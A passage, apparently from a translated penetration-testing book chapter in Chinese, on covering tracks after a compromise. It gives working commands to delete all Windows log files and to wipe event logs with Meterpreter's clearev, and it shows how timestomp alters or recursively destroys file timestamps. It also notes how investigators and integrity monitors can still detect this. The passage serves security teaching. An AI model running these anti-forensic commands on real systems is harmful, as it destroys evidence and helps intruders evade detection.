当我们回顾一些攻击向量时，我们将使用水平升级攻击，例如远程访问攻击。

# 掩盖你的足迹

一旦系统被攻击，攻击者必须掩盖其踪迹以避免被发现，或者至少使防御者更难重建事件。

攻击者可以完全删除 Windows 事件日志（如果它们被主动保留在受损服务器上）。这可以通过系统的命令 shell 并使用以下命令来完成：

```
C:\ del %WINDIR%\*.log /a/s/q/f

```

该命令指示删除所有日志（`/a`，包括所有子文件夹（`/s`中的文件）。`/q`选项禁用所有查询，请求*是*或*否*响应，`/f`选项强制删除文件，使恢复更加困难。

也可以通过发出命令`clearev`在`meterpreter`提示符下完成此操作。这将从目标清除应用、系统和安全日志（此命令没有选项或参数）。

通常，删除系统日志不会向用户触发任何警报。事实上，大多数组织对日志记录的配置过于随意，以至于丢失的系统日志被视为可能发生的事件，并且它们的丢失没有得到深入的调查。

Metasploit 还有一个额外的技巧，`timestomp`选项允许攻击者更改文件的 MACE 参数（文件的上次修改、访问、创建和 MFT 条目修改次数）。一旦系统被破坏并建立了一个`meterpreter`shell，就可以调用`timestomp`，如下面的屏幕截图所示：



例如，受损系统的`C:`包含一个名为`README.txt`的文件。此文件的 MACE 值表明它是最近创建的，如以下屏幕截图所示：


如果我们想隐藏这个文件，我们可以将它移动到一个混乱的目录中，比如`windows\system32`。但是，任何根据创建日期或另一个基于 MAC 的变量对目录内容进行排序的人都会清楚地看到该文件。因此，要将 MAC 信息从`cmd.exe`文件复制到`README.txt`文件，请使用以下命令：

```
meterpreter>timestomp README.txt -f 
  C:\\WINDOWS\system32\cmd.exe 

```

我们也可以使用`-b`开关选择清空 MAC 数据。正如您在下面的屏幕截图中所看到的，我们选择将 MAC 数据更改为未来某个时间（即`2106`年）。



这种变化将引起调查人员的注意，但他们将无法使用数据进行法医分析。原始 Windows 平台中的属性是什么样子的？如果系统管理员调用文件的系统属性，则创建和修改日期已更改回 1601 年（Microsoft 用作初始系统启动时间的日期）。相反，文件的上次访问时间保持准确。您可以在以下屏幕截图中看到这一点：


虽然这是预期的行为，但它仍然为调查人员提供线索。为了彻底破坏调查，攻击者可以使用以下命令递归更改目录或特定驱动器上的所有设置时间：

```
meterpreter>timestompC:\\ -r

```

解决方案并不完美。很明显，发生了一次袭击。此外，时间戳可以保留在硬盘驱动器上的其他位置，并可用于调查。如果目标系统正在使用入侵检测系统（如 Tripwire）主动监控系统完整性的变化，则会生成`timestomp`活动的警报。因此，当确实需要秘密方法时，销毁时间戳的价值是有限的。

# 总结

在本章中，我们重点介绍了利用目标系统后立即采取的行动。我们回顾了为描述服务器和本地环境而进行的初始快速评估。我们还学习了如何识别和定位感兴趣的目标文件、创建用户帐户、执行垂直升级以提高访问权限，以及消除入侵迹象。

在下一章中，我们将学习如何实现持久后门以保持访问，并学习支持与受损系统进行隐蔽通信的技术。